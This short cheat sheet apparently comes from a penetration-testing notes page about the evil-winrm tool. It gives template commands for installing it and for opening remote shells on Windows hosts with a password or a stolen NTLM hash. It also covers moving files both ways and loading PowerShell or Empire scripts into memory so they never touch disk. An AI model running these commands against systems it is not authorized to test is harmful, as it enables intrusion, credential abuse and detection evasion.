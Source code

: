 ### evil-winRM  

To install.  

`sudo gem install evil-winrm`  

To connect with a password.  

`evil-winrm -u USERNAME -p "PASSWORD" -i IP_ADDRESS`  

To connect with a NTLM hash.  

`evil-winrm -u USERNAME -H HASH_PASSWORD -i IP_ADDRESS`  

While in evil-winrm, we can upload and download files.  

`upload LOCAL_FILEPATH REMOTE_FILEPATH`  

`download REMOTE_FILEPATH LOCAL_FILEPATH`  

To upload a directory of scripts to run e.g. powershell scripts we had on our machine at /opt/scripts, this command will upload to memory and not touch the disk. This can be used with empire scripts.   

`evil-winrm -u USERNAME -p "PASSWORD" -i IP_ADDRESS -s /opt/scripts`
